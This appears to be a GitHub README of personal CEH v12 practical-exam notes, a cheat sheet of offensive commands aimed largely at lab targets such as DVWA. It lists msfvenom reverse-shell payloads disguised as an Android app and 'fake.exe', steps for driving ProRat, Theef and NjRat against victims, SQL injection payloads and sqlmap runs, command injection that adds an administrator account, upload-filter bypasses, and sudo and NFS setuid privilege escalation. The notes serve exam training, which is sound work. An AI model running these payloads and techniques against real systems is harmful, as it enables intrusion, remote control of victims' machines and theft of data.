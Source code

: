# ceh_practical_ceh12
all about ceh v12 practical exam, what types of questions, and stuff
## to find hashes,crc value and other stuff use this:
https://emn178.github.io/online-tools/crc32_checksum.html (online tools github)
https://gchq.github.io/CyberChef/  -----cyber chef

1. find the fqdn of domain controller ?
	```bash
        nmap -p 389 --script ldap-rootdse localhost
	or 
	nmap -sV -p 389 localhost
	or smb os discovery nmap script port 445 
	```

PORT NUMBERS:
21 - FTP
22 - SSH
23 - telnet (use - telent ip/website 80 after this type - GET / HTTP/1.0)
25,110,143 - smtp,pop3,imap
80,443,8080,8080 - HTTP,HTTPS
139,445- SMB
334- HTTPS
389- LDAP - ACTIVE DIR.
ldapsearch -H ldap://10.10.79.88 -x -s base namingcontexts (can see domain controller name here)

2049-NFS network file system (mounting). To see the mount share do = showmount -e ip it will show something like /home
	sudo mount -t nfs IP:/home /tmp/mount/ -nolock (to mount the share to our local machine offcourse u need to make a mkdir /tmp/mount)
	
3306-MYSQL
3389- RDP (xfreerdp

#create a apk payload for android 
msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.9.121.119 LPORT=4444 -f raw -o mini_hotstar.apk
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.56.189 LPORT=4444 -f raw ----(for php upload or file inclusion ) add (GIF98) in dvwa high diff... in the first line of code 
msfvenom -p windows/meterpreter/reverse_tcp --platform windwos -a x86 LHOST=10.9.121.119 LPORT=4444 -f exe -o fake.exe

hackable/uploads/ceh_notes
; cp /var/www/html/DVWA/hackable/uploads/shell3.png /var/www/html/DVWA/hackable/uploads/shell3.php




Remote Access Trojan (RAT):::

you will need to access some code text file so do this because it will be in win... open cmd -  dir /b/s "*.txt"
do nmap for open ports all the related ports to mobile like 80,443,8080,8443,5228,5555(5228 is google play store port)
Theef default port: 9871, 6703, FTP 2968
NJRAT default port: 5552 
MoSucker default port: 200005 
ProRat default port: 5110 

ProRat 
Execute ProRat
Set victim IP and relative port 5110 
Click to connect and search files.


Theef  
Execute Theef 
Set victim IP and relative ports to 6703,9871 and 2968 (or custom port) 
Click to connect and open file manger. 


NjRat 
Execute NjRat 
Insert IP and Port (it will attacker's ip and port this time )
Click on manager and open directory




ENTROPY VALUE (USE ent tool --- ent file.txt)



###SQL INJECTION(sqli)

COMMENTS USE IN SQLi
Oracle	      --comment
Microsoft     --comment or /*comment*/
PostgreSQL    --comment or /*comment*/
MySQL	      #comment or -- comment [Note the space after the double dash] or /*comment*/


VERSION USE IN SQLi
Oracle         --- select version from v$instc
Microsoft      --- select @@version
PostreSQL      --- select version()
MySQL          --- select @@version



to login in as random user use below line:
lskdjf' or 1=1 -    ---(remember the space after 1 and if this doesn't work try other payload)

sqli some payload to use
admin' --  
admin' #  
admin'/*  
' or 1=1--  
' or 1=1#  
' or 1=1/*  
') or '1'='1--  
') or ('1'='1—


sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=&Submit=Submit#" --cookie="PHPSESSID=6jdekes1pn684pit6c16e34n6h; security=low; -dbs   (START FROM THIS THEN YOU'LL GET DATABASES)
 --cookie="PHPSESSID=6jdekes1pn684pit6c16e34n6h; security=low; ui-tabs-1=0" -D moveiscope --tables -dbs  -----(USE LOGGED IN USER OR NOT BUT USE --COOKIE WITH SECRUTIRYS)

with agressive scanning 
sqlmap -u "domain.xyz" --crawl=3 --level=5 --risk=3 --dbs
    OR
use jsql might work

 
 payload
 1' union select null,version(),null# ----simple union one
 1' union select table_name,null from information_schema.tables where table_schema='dvwa'# ----- where table_schema is basically database name dont forget it 
 1' union select column_name, table_name from information_schema.columns where table_name="users"# 
 1' union select user,password from users#
 

###SMB 445 
to see share of smb 
smbclient -L //ip/
to see inside the share 
smbclient //ip/share_name

nmap script named smb-enum-shares (use if other smb tool not working)
nmap smb-vuln* 

smbmap tool to get into smb 
smbmap -u jsmith -p password1 -d workgroup -H 192.168.0.1 (-d is optional)

Overall Scan - 
enum4linux -a ip


#####WORDPRESS (WPSCAN) AND USER AND PASSWORD ENUMERATION
to enumerate password of the user use metasploit - 
wordpress_login_enum (msfconsole)

wpscan --url http://192.168.1.10:8080/wordpress -u sarah -P passwdlist.txt
wpscan --url http://192.168.1.10:8080/wordpress --enumerate u ---to get usernames



####OPENVAS (https://127.0.0.1:9392/) DEFAULT PORT
to start the service---   sudo gvm-start
to stop  the service---   sudo gvm-stop  

#### NESSUS (https://kali:8834/)


####STEGNOGRAPHY
steghide --embed -sf file.jpg -ef data.txt ---- to add txt file in the image 
steghide --extract -sf file.jpg -----to extract the file 
steghide info file.jp ----to check if it has any file inside the image
stegseek file.jpg rockyou.txt ---- crack the steg image file if password is in the wordlist

and another tool both in win. and linux 
snow and stegsnow
stegsnow -p "root" -m "This is the real harry pass.: lsdkjfdl34re0dkj" pass.txt restricted.txt (restricted is the file which has hidden data)
stegsnow -p "root" restricted.txt 
SAME IN WINDOWS 


SNOW WINDOWS
snow.exe -C -p "password" stegfile.txt 


### wireshark filters

// filters by post
http.request.method==POST --check password or username

to check the ip and how has sent the most and least packets to victim and other things 
tcp.flags.syn==1 and tcp.flags.ack==0 ----this is show you ddos packets go to statictics > ipv4 > ip source & des > check which one you want ip (destination and ports)

ip.dst == 172.22.10.10 (display filter)

Open IPv4 Conversations:
Statistics > Conversations > IPv4 tab.
Sort by Packets:
Click on the Packets column header to sort conversations by packet count.
Identify the least packet count:
Look through the sorted list to find the conversation with the least number of packets sent to 172.22.10.10 .

### Identify IoT Message and its Length:

to filter only publish message and get that only use mqtt.msgtype==3
you'll get only publish messagge
or
Filter .cap file on wireshark with 'MQTT' filter
Select packet related to Publish Message
Click on MQ Telemetry Transport Protocol -> Header Flags -> Message Msg Len 
or

Click on MQ Telemetry Transport Protocol -> Publish Message -> Msg Len



####
http://www.site.com/index.php?page_id=95 (useful to finding pages and flag)
 ####


###### Privilege scalation 
ssh -p 2222 user@1ip
sudo -ls ###list the su permisions

sudo vim -c ':!/bin/sh' ### privilege escalation

	OR
	
Misconfigured NFS (Port 2049)

nmap -sV -p 2049 IP/Subnet
sudo apt-get install nfs-common (IF NOT install)
Enumerate NFS Shares:

nmap -sV --script=nfs-showmount <Target_IP>
Check Available Mounts:

showmount -e <Target_IP>
We will see the /home directory.
Create Directory to Mount NFS Share:

mkdir /tmp/nfs
Mount the NFS Share:

sudo mount -t nfs 10.10.1.9:/home /tmp/nfs
Change to the Mounted Directory:

cd /tmp/nfs
Copy bash to the Mounted Directory:

sudo cp /bin/bash .
Make bash Executable a Setuid Binary:

sudo chmod +s bash
It will be highlighted in red.
Check Permissions and Mounted Filesystems:

ls -la
sudo df -h
In Another Terminal, SSH into the Target Machine:

Execute Setuid bash to Gain Root:

./bash -p
Navigate to the /home Directory:
now check the file if you're root
find / -name "*.txt" -ls 2> /dev/null


####### FOR WINDOWS PRIVILEGE ESCALATION USE
BeRoot tool 




####CRYPTOGRAPHY 
BCTextEncoder
if question says decode the say sniff.txt file then use bctextencoder it will be encoded file don't modify it...
and it will ask for the pass. it will one of the user's pass.




####DVWA (COMMAND INJECTION) -
net user 
net user /Add Test
net localgroup Administrators Test /Add  (granted admin privileges)

commands to use in commands injection
;,&,|,||,$



###FILE UPLOAD
GIF98 (in the first line of payload) this is for high level...save as jpeg or png

#####adb or android 
to check open ports: 5555
more adb port imp is 5555 and others that may use are 5037 ie. adb server then 5555 ie. wireless adb
80/443 use for web services, 22 for ssh,8000 for scrcpy streaming display and 5554-5584 for android emulator.
connect adb to ip:5555
adb shell
adb pull i.e for downloading content locally 
adb push i.e for uploading content locally




